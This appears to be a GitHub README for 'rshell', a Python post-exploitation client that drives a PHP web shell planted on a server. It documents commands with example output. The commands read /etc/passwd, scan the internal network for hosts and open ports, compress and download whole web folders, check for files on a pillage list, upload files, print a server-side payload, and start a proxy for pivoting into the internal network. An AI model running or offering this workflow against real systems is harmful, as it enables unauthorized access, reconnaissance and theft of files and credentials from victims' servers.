 
# rshell
## Interactive command line interpreter using a web shell

###Usage:
	python rshell.py -u shell_url [-p proxy:port]
####Examples:
	* python rshell.py -u http://127.0.0.1/shell.php

		#Get the ips assigned to the server interfaces
		rshell:~ get_local_ips
		{'127.0.0.1': {'mask_bits': 8}, '192.168.1.8': {'mask_bits': 24}}

		#Find hosts in the server internal network
		rshell:~ find_hosts

		IP: 192.168.1.3
		Host name: 
 
		IP: 192.168.1.2
		Host name: 
		 
		IP: 192.168.1.1
		Host name: 
		23/tcp    open  telnet
		53/tcp    open  domain
		80/tcp    open  http
		52869/tcp open  unknown
		 
		IP: 192.168.1.8
		Host name: 
		22/tcp  open  ssh
		80/tcp  open  http
		111/tcp open  rpcbind
		139/tcp open  netbios-ssn
		445/tcp open  microsoft-ds

		#Run a command on the server side
		rshell:~ cat /etc/passwd

		#Run a command on the client side
		rshell:~ !command_in_client_side

		#Compress and download a folder
		rshell:~ dwfolder /var/www/html

		#Start a proxy to pivot to the internal network
		#You have to configure your browser proxy settings to localhost:8888
		rshell:~ start_proxy

	* python rshell.py -u http://127.0.0.1/shell.php -p proxy:port

###Functionality
	 - check_files 
        	Check existence of some files extracted from
	        pillage.lst from pwnwiki (https://github.com/pwnwiki)
        	usage: check_files
	 - compress_folder 
        	Compress a folder in the the server
	        usage: dwfolder compressed_file_name
	 - download 
        	Download a file from the server
	        usage: download remote_path/remote_file local_path/local_file
	 - dwfolder 
        	Compress and download a entire folder from the server
	        usage: dwfolder folder_path
	 - exit 
        	This is the exit command
	 - find_hosts 
        	Find hosts on local network
	        usage: find_hosts
	 - get_local_ips 
        	Get ips assigned to the local interfaces
	        usage: get_local_ips
	 - get_os 
        	Get information about the operating system using php
	        usage: get_os
	 - getswversion 
        	Print some software versions
	        usage: getswversion
	 - getsysinfo 
        	Print user and system information
	        usage: getsysinfo
	 - help 
        	This command show the list of commands
	 - payload 
        	Print the payload to write in an executable file in the server
	 - phpinfo 
        	Extract the phpinfo result and open it in a web browser
	 - print_hosts 
        	Print the hosts finded whith the command find_hosts
	        usage: print_hosts
	 - print_local_ips 
        	Print local ips
	        usage: print_local_ips
	 - quit 
        	This is the exit command
	 - set_password

	 - shell 
        	This method execute the command locally
	 - sql_connect

	 - start_proxy 
        	Start a local http proxy server to surf the internal network
	        usage: start_proxy
	 - stop_proxy 
        	Stop the proxy server
	        usage: stop_proxy
	 - upload 
        	Upload a file to the server
	        usage: upload local_path/local_file remote_path/remote_file
